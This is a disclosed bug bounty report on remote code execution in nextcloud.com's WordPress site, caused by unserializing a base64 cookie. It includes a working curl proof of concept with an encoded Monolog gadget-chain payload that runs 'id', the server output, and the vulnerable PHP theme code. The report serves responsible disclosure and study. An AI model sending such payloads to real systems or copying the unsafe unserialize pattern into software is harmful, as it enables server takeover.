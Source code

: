 # RCE on Wordpress website

## Report Details
- **Report ID**: 2248328
- **URL**: https://hackerone.com/reports/2248328
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-11-10T20:55:17.196Z
- **Disclosed**: 2023-12-28T11:11:00.101Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
There is a trivial to exploit Remote Code Execution on nextcloud.com due to unserializing user input.

# Proof of concept
The following command will execute the `system('id')` command on the host. As gadget chain I've used Monolog which is included in the PodLove WordPress plugin used on nextcloud.com: 

```
curl -i -s -k -X $'GET' \
    -H $'Host: nextcloud.com' \
    -b $'nc_cookie_banner={\"essentials\":true,\"convenience\":false,\"statistics\":{\"matomo\":false},\"external_media\":{\"youtube\":false,\"vimeo\":false}}; wp-wpml_current_language=en; nc_form_fields=TzozNzoiTW9ub2xvZ1xIYW5kbGVyXEZpbmdlcnNDcm9zc2VkSGFuZGxlciI6NDp7czoxNjoiACoAcGFzc3RocnVMZXZlbCI7aTowO3M6MTA6IgAqAGhhbmRsZXIiO3I6MTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoyOiJpZCI7czo1OiJsZXZlbCI7aToxMDA7fX1zOjEzOiIAKgBwcm9jZXNzb3JzIjthOjI6e2k6MDtzOjM6InBvcyI7aToxO3M6Njoic3lzdGVtIjt9fQ==' \
    $'https://nextcloud.com/newsletter/'
```

The last line of the response will contain the output of the `id` command:
```
<!-- Performance optimized by Redis Object Cache. Learn more: https://wprediscache.com -->uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Vulnerable lines of code
The `unserialize` call in the below code paths is performed on user-input. (`$_COOKIE['nc_form_fields']`)

https://github.com/nextcloud/nextcloud-theme/blob/e6db0a90391ec94f9eb6d86e16dc16e36c5f4dd4/inc/ninjaforms.php#L114
```php
add_filter( 'ninja_forms_render_default_value', 'nc_change_nf_default_value', 10, 3 );
function nc_change_nf_default_value( $default_value, $field_type, $field_settings ) {
    
    if(isset($_COOKIE['nc_form_fields'])){
        $nc_form_fields = unserialize(base64_decode($_COOKIE['nc_form_fields']));

        if( str_contains($field_settings['key'], 'name') && !str_contains($field_settings['key'], 'organization') ){
                if(isset($nc_form_fields['nc_form_name'])) {
                    $default_value = $nc_form_fields['nc_form_name'];
                }
        }
        if( str_contains($field_settings['key'], 'email') ){
                if(isset($nc_form_fields['nc_form_email'])) {
                    $default_value = $nc_form_fields['nc_form_email'];
                }
        }
        if( str_contains($field_settings['key'], 'phone') ){
                if(isset($nc_form_fields['nc_form_phone'])) {
                    $default_value = $nc_form_fields['nc_form_phone'];
                }
        }
    }

  return $default_value;
}
```

https://github.com/nextcloud/nextcloud-theme/blob/e6db0a90391ec94f9eb6d86e16dc16e36c5f4dd4/inc/ninjaforms.php#L431
```php
add_filter( 'ninja_forms_render_options', function( $options, $settings ) {
    
    //https://www.html-code-generator.com/php/array/languages-name-and-code
    $languages_list = array(
        'en' => 'English',
        // [snip]
        'zu' => 'Zulu - isiZulu'
    );

    if(str_contains($settings['key'], 'language')) {

        $options = [];
        $browser_lang = substr($_SERVER['HTTP_ACCEPT_LANGUAGE'], 0, 2);

        $pref_lang = '';
        if(isset($_COOKIE['nc_form_fields'])){
            $nc_form_fields = unserialize(base64_decode($_COOKIE['nc_form_fields']));
            if( isset($nc_form_fields['nc_form_lang'])){
                $pref_lang = $nc_form_fields['nc_form_lang'];
            }
        } else {
            $pref_lang = $browser_lang;
        }


        foreach($languages_list as $code => $language) {
            $selected = false;

            if($pref_lang == $code){
                $selected = true;
            }

            $options[] = [
                'label' => $language,
                'value' => $code,
                'calc' => 0,
                'selected' => $selected
            ];

        }
        
    }
  
    return $options;
}, 10, 2 );
```

## Impact

RCE on the nextcloud.com WordPress instance. I have not tried to escalate up from the host, but I'd assume there is plenty of privilege escalation potential. (or at least the ability to set malicious download links for the Nextcloud binaries)

## Attachments
- recording-1699649659147.mp4
